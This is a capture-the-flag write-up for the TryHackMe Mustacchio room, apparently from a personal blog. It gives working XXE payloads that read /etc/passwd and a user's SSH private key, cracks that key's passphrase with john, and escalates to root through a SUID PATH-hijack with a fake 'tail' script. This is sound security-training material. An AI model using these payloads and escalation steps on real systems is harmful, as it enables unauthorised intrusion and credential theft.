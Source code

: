 ```yaml
---
slug: mustacchio
title: Mustacchio CTF
authors: [hueami]
tags: [tryhackme, ctf, xee, lpe]
comments: true
---
```


## Solving the Mustacchio Room on TryHackMe

This post details a comprehensive walkthrough of identifying and exploiting vulnerabilities within the as 'easy' tagged [Mustacchio](https://tryhackme.com/room/mustacchio) room on TryHackMe. The objective is to systematically enumerate services, exploit found vulnerabilities for initial access, escalate privileges, and capture flags, providing a technical perspective on ethical hacking practices.

### Initial Enumeration with Nmap

The initial step involved conducting a network scan using `nmap` to enumerate open ports and available services on the target:

```bash
nmap [target IP] -p0-
```

This scan identified several open ports:
```bash
22/tcp for SSH
80/tcp for HTTP
8765/tcp for ultraseek-http
```

### Discovering Hidden Resources with Feroxbuster

Subsequently, `feroxbuster` was employed to aggressively search for hidden directories and files, revealing a notable file: `users.bak`.

```bash
feroxbuster -u http://[target IP] -w ~/security/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

### Extracting Credentials

The `users.bak` file uncovered by `feroxbuster` contained what seemed to be user credentials:

`admin1868e36a6d2b17d4c2745f1659433a**********`

I utilized the password-cracking service [CrackStation](https://crackstation.net/) to decrypt the obscured password.

### Exploiting XXE to Gain Initial Access

Navigating to `http://10.10.3.119:8765`, I utilized the credentials previously discovered in `users.bak` to log in, unveiling a form designed for posting comments. Upon submission, the form presents a preview showcasing fields for Name, Author, and Comment, which intriguingly populate only when an XML containing corresponding tags is supplied. This peculiar behavior hinted at the potential for XML External Entity (XXE) exploitation.

Leveraging this insight, I crafted an XML payload aiming to probe for XXE vulnerabilities by attempting to fetch system files. The first payload sought to retrieve the `/etc/passwd` file to obtain possible users for ssh login:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<comment>
    <name>&file;</name>
</comment>
```

This yielded promising results, disclosing several user accounts, notably `joe` and `barry`.

To further exploit this avenue, a subsequent XML payload targeted the retrieval of SSH keys for these users. It became apparent that while Joe lacked an SSH key, Barry possessed one:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
    <name>&file;</name>
</comment>
```

However, the ssh key was secured with a passphrase, necessitating its decryption. Using the tools `ssh2john` and `john the ripper` alongside the famous `rockyou.txt` wordlist, I cracked the passphrase.

```bash
python /opt/homebrew/Cellar/john-jumbo/1.9.0_1/share/john/ssh2john.py ~/security/temp/id_barry.rsa > id_rsa_barry_hash

john --wordlist=~/security/wordlists/rockyou.txt ~/security/temp/id_rsa_barry_hash
```

With the decrypted key, I successfully SSH'd into the system as Barry:

```bash
ssh -i id_rsa_barry barry@[target IP]
```

Upon gaining access, I found the user flag.

### Privilege Escalation

For privilege escalation, I sought files with the SUID bit set, which could be exploited to gain elevated privileges. When a file with SUID bit has the owner `root`, the file is executed with `root`'s privileges, regardless of the user who executed the file:

```bash
find / -perm -u=s -type f 2>/dev/null
```

An intriguing file, `/home/joe/live_log`, was identified, with SUID flag set and the owner `root``. Analyzing it with `strings /home/joe/live_log` suggested it executed another program, `tail`, without an absolute path. This was exploitable via a path injection:

To exploit this, I created a malicious `tail` script, intending to copy the system's `tail` binary and obtain root's privileges by also setting the SUID bit:

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chmod 4777 /tmp/bash
```

By adjusting the `PATH` to prioritize the current directory, the system executed my malicious script instead of the legitimate `tail`:

```bash
export PATH=`pwd`:$PATH
```

Executing `/home/joe/live_log` then invoked my script, creating a SUID bash shell in `/tmp/bash`, which granted a root shell when run with the `-p` flag:

```bash
/tmp/bash -p
```

Accessing `/root/root.txt`, I captured the root flag, completing the privilege escalation process.

### Conclusion

This walkthrough of the Mustacchio room on TryHackMe highlights the criticality of detailed reconnaissance, methodical exploitation, and privilege escalation in cybersecurity. The tools and methodologies discussed, including `nmap`, `feroxbuster`, and the exploitation of XXE and SUID binaries, are essential for cybersecurity practitioners. This experience underscores the ongoing need for vigilance and ethical hacking skills in securing systems.

Engage with curiosity, continue learning, and uphold ethical hacking standards.